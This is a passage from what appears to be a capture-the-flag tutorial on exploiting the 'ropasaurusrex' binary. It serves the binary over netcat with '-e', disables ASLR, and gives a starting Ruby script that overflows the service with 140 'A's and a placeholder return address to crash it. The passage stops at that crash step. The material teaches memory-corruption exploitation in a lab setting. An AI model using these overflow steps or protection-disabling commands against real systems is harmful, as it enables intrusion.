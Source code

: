 <h2>Starting to write an exploit</h2>
The first thing you should do is start running <tt>ropasaurusrex</tt> as a network service. The folks who wrote the CTF used <a href="https://en.wikipedia.org/wiki/Xinetd">xinetd</a> to do this, but we're going to use <a href="https://en.wikipedia.org/wiki/Netcat">netcat</a>, which is just as good (for our purposes):

<pre>
<span class="lnr">1 </span>$ <span class="Statement">while </span><span class="Statement">true</span><span class="Statement">;</span><span class="Statement"> </span><span class="Statement">do</span> nc <span class="Special">-vv</span> <span class="Statement">-l</span> <span class="Statement">-p</span> <span class="Constant">4444</span> <span class="Statement">-e</span> ./ropasaurusrex<span class="Statement">;</span> <span class="Statement">done</span>
<span class="lnr">2 </span>listening on <span class="Statement">[</span>any<span class="Statement">]</span> <span class="Constant">4444</span> ...
</pre>

From now on, we can use <tt>localhost:4444</tt> as the target for our exploit and test if it'll work against the actual server.

You may also want to disable ASLR if you're following along:

<pre>
<span class="lnr">1 </span>$ sudo sysctl <span class="Special">-w</span> <span class="Identifier">kernel.randomize_va_space</span>=<span class="Constant">0</span>
</pre>

Note that this will make your system easier to exploit, so I don't recommend doing this outside of a lab environment!

Here's some ruby code for the initial exploit:

<pre>
<span class="lnr"> 1 </span><span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">socket</span><span class="Special">'</span>
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>$ cat ./sploit.rb
<span class="lnr"> 4 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">&quot;</span><span class="Constant">localhost</span><span class="Special">&quot;</span>, <span class="Constant">4444</span>)
<span class="lnr"> 5 </span>
<span class="lnr"> 6 </span><span class="Comment"># Generate the payload</span>
<span class="lnr"> 7 </span>payload = <span class="Special">&quot;</span><span class="Constant">A</span><span class="Special">&quot;</span>*<span class="Constant">140</span> +
<span class="lnr"> 8 </span>  [
<span class="lnr"> 9 </span>    <span class="Constant">0x42424242</span>,
<span class="lnr">10 </span>  ].pack(<span class="Special">&quot;</span><span class="Constant">I*</span><span class="Special">&quot;</span>) <span class="Comment"># Convert a series of 'ints' to a string</span>
<span class="lnr">11 </span>
<span class="lnr">12 </span>s.write(payload)
<span class="lnr">13 </span>s.close()
</pre>

Run that with <tt>ruby ./sploit.rb</tt> and you should see the service crash:
